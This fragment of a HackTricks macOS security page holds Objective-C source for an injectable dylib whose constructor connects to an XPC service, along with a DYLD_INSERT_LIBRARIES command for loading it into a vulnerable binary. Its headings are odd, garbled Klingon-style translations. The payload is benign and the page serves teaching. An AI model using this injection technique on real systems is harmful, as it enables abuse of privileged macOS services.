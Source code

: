 ### tlhIngan Hol translation:

## Dylb codeDaq qachDaq Client

### HTML translation:

<h2>Dylb codeDaq qachDaq Client</h2>
```objectivec
// gcc -dynamiclib -framework Foundation oc_xpc_client.m -o oc_xpc_client.dylib
// gcc injection example:
// DYLD_INSERT_LIBRARIES=oc_xpc_client.dylib /path/to/vuln/bin

#import <Foundation/Foundation.h>

@protocol MyXPCProtocol
- (void)sayHello:(NSString *)some_string withReply:(void (^)(NSString *))reply;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv)
{
NSString*  _serviceName = @"xyz.hacktricks.svcoc";

NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];

[_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(MyXPCProtocol)]];

[_agentConnection resume];

[[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
(void)error;
NSLog(@"Connection Failure");
}] sayHello:@"Hello, Server!" withReply:^(NSString *response) {
NSLog(@"Received response: %@", response);
}    ];
NSLog(@"Done!");

return;
}
```
<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary></details>
